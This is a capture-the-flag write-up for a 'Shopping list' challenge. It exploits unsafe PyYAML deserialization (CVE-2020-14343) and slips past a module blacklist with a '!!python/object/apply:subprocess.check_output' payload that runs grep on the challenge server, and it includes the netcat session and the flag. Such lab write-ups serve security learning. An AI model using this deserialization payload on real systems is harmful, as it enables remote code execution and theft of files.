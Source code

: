 # Shopping list
Author: [Stratulat Dragoș](https://www.linkedin.com/in/stratulat-dragos-6b9a09227)

## Description
```
Exposing server errors on the client side and leak information about the library modules used by the server.
```

## Requirements
- PyYaml module CVE-2020-14343

## Solve

**Connection and Options**

Connect to the server. <br>
After entering a username, the server presents two options. <br>
Opting for the first choice allows adding a new list in a JSON-like format. <br>

**Valid List Entry**

Provide a correctly formatted list to observe the response. <br>
Check the second option to verify if the list got stored. <br>

**Error Detection with PyYAML Module**

Encounter an error indicating the server's usage of the PyYAML module. <br>
This module has a known CVE that enables arbitrary code execution; the server implemented a blacklist mechanism though. <br>

**Discovery of Allowed Module**

After several attempts, find that the subprocess module isn't blacklisted. <br>
Attempt to execute `ls` to examine the output. <br>
Discovered the `cat` command was blacklisted.

**Successful Approach**

Attempted using `grep –r "CSCTF{}` as the flag format. <br>
Successfully retrieved the flag with the following payload:

```json
{!!python/object/apply:subprocess.check_output [["grep", "-r", "CSCTF"]]}
```

<br>

```bash
nc chal.chronossec.site 30190
Enter your username: chronos
Hello, chronos

[+] Welcome to our super secure shopping list application.
[+] Press [1] to add a new list
[+] Press [2] to see your lists
1

Enter your list with the following format {[product name]: [quantity]}.
Example: {apples: 10, bananas: 5}
{!!python/object/apply:subprocess.check_output [["grep", "-r", "CSCTF"]]}

[+] Welcome to our super secure shopping list application.
[+] Press [1] to add a new list
[+] Press [2] to see your lists
2
[*] Here are your lists:
List 0
{b'flag.txt:CSCTF{y3T_@n0Th3R_Rc3_vUln3R@B1L17Y}\n': None}


[+] Welcome to our super secure shopping list application.
[+] Press [1] to add a new list
[+] Press [2] to see your lists
```

<br>

> Flag: `CSCTF{y3T_@n0Th3R_Rc3_vUln3R@B1L17Y}`